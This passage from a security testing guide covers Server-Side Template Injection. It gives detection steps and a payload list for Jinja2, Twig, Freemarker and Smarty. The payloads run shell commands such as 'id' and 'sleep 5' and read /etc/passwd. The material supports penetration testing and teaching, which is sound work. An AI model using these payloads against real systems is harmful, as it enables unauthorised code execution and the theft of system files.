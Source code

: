   **Example (Testing for Jinja2):**
  ```
  {{ invalid_variable }}
  ```
  An error message like `UndefinedError: 'invalid_variable' is undefined` may reveal the use of Jinja2.

## 5. Test for Blind SSTI with Time Delays
- If the output is not visible, use time-based payloads (e.g., `sleep`) to detect SSTI. This is useful for blind injection scenarios.

  **Example (Testing for Blind SSTI):**
  ```
  {{ ''.__class__.__mro__[1].__subclasses__()[40]('sleep 5',shell=True).communicate() }}
  ```

  If the server delays the response by 5 seconds, SSTI is likely present.

# SSTI Payloads

Here are common payloads for exploiting Server-Side Template Injection vulnerabilities:

### 1. Basic Template Injection Payload
- Evaluate basic expressions or arithmetic to test for SSTI.
  ```
  {{ 7 * 7 }}
  ```

### 2. Jinja2 Remote Code Execution (RCE)
- Execute system commands by abusing Jinja2’s access to internal objects.
  ```
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
  ```

### 3. Twig Remote Code Execution (RCE)
- Exploit Twig’s internal objects to execute arbitrary commands.
  ```
  {{ _self.env.registerUndefinedFilterCallback('exec') }}{{ _self.env.getFilter('id') }}
  ```

### 4. Freemarker RCE
- Freemarker payload for accessing the file system and reading sensitive files.
  ```
  ${''.getClass().forName('java.lang.Runtime').getRuntime().exec('cat /etc/passwd')}
  ```

### 5. Smarty Template RCE
- Smarty template engine payload for executing shell commands.
  ```
  {system('id')}
  ```

### 6. Blind SSTI Payload (Time Delay)
- Use a time-based payload to confirm blind SSTI.
  ```
  {{ ''.__class__.__mro__[1].__subclasses__()[40]('sleep 5',shell=True).communicate() }}
  ```
